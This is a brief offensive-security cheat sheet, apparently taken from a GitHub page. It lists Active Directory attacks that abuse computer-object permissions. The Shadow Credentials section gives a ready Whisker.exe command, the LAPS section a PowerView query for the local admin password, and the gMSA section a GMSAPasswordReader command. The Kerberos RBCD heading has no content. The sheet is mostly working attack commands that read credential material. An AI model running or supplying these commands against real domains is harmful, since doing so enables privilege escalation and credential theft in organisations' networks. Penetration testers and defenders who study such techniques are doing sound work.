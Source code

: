 # DACL Attacks on a Computer

## 1) WriteProperty

### Shadow Credentials

    Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:Password123!

### Kerberos RBCD

## 2) AllExtendedRights

### ReadLAPSPassword

#####  With PowerView

    Get-DomainComputer <target>.domain.local -Properties ms-mcs-AdmPwd,displayname,ms-mcs-AdmPwdExpirationTime

### ReadGMSAPassword

    ./GMSAPasswordReader.exe --accountname gmsaAccount

